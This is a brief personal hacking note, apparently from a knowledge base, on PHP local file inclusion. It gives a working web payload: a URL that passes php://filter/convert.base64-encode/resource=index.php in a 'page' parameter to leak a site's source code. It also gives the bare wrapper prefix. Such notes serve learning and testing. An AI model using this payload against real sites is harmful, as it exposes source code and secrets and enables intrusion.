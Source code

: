 # php LFI include PHP filter URL base 64 encode
```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
php://filter/convert.base64-encode/resource=
```

# References
- [20221003150581](/zet/20221003150581/) php LFI include PHP filter URL
- ~/kb/hacking/php/lfi.md

Tags:
    #assorted

